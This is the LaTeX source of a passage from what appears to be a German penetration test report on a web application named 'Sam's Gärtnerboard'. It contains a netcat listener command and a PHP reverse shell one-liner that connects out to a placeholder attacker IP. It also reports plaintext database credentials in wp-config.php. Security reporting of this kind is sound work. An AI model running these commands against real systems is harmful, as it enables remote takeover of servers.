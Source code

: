 Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden. Ein Nachweis ist in \autoref{fig:03_sam_proof} dargestellt.


\begin{listing}[!ht]
\begin{verbatim}
php -r '\$sock=fsockopen("<Angreifer-IP>",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{verbatim}
\caption{Reverse Shell}
\label{listing:sams-gaertnerboard:reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/03_sam_proof.png}
    \caption{Proof für die Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_proof}
\end{figure}

\subsection*{Empfehlungen}
Empfehlungen


\section{\makecvssbadge Sensitive Data Exposure}

\subsection*{Proof of concept}
Durch den zuvor erlangten administrativen Zugriff auf die Webanwendung \textit{Sams's Gärtnerboard} konnten die Zugangsdaten für den Zugriff auf die dazugehörige Datenbank erlangt werden. Diese sind in der Datei \texttt{wp-config.php} zu finden. Die Zugangsdaten liegen im Klartext vor und sind nicht verschlüsselt.

